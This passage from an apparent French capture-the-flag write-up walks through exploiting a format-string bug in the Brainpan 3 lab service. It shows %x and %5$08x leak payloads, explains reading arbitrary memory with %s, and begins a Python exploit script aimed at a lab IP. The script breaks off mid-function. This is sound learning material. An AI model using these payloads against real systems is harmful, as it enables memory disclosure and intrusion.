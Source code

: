 Retour donc sur ce service et en particulier sur la commande 3 qui a une fois de plus une faille de chaîne de format post-authentification :  

```plain
ENTER COMMAND: 3
SELECTED: 3
ENTER NEW SESSION NAME: Hello %.8X
--------------------------------------------------------------
SESSION: Hello BFC3F47C
  AUTH   [Y]    REPORT [N]    MENU   [Y]
--------------------------------------------------------------
```

Maintenant l'étape suivante est de pouvoir dumper pas seulement en spécifiant un offset de la stack mais en passant directement une adresse.  

Il faut d'abord trouver l'offset où se trouve des données sous notre contrôle :  

```plain
ENTER COMMAND: 3
SELECTED: 3
ENTER NEW SESSION NAME: %5$08xAABBBBCCCC
--------------------------------------------------------------
SESSION: 42424242AABBBBCCCC
```

Si on remplace ici notre %x par un %s on sera en mesure de faire afficher ce qui se trouver à l'adresse 0x42424242.  

On peut commencer par examiner les adresses mémoires de la stack. Il faut mettre de côté les valeurs trop faibles qui ne correspondent vraisemblablement à une adresse valide.  

Petit rappel sur la structure d'un binaire 32bits en mémoire : les adresses correspondant à la stack seront plus grandes que celles correspondant au code.  

![Linux x86 process memory layout](https://raw.githubusercontent.com/devl00p/blog/master/images/brainpan_3/bp3_program_in_memory.png)

```python
import socket
import struct
from string import printable
from binascii import unhexlify, hexlify
import re
from typing import Union
from time import sleep
from telnetlib import Telnet

TARGET = "192.168.3.2"

CODE_REGEX = re.compile(r"INVALID ACCESS CODE: ([0-9A-F]{8})")
SESSION_REGEX = re.compile(r"SESSION: ([0-9A-F]{8})")
MIN_ADDR = 0xB7000000

def wait_until(sock, patterns: Union[tuple, str]):
    if isinstance(patterns, str):
        patterns = (patterns, )

    buff = b""
    while True:
        buff += sock.recv(1024)
        for message in patterns:
            if message.encode() in buff:
                return message, buff

def hex_repr(int_value):
    result = "'"
    raw = struct.pack("<I", int_value)
    for b in raw:
```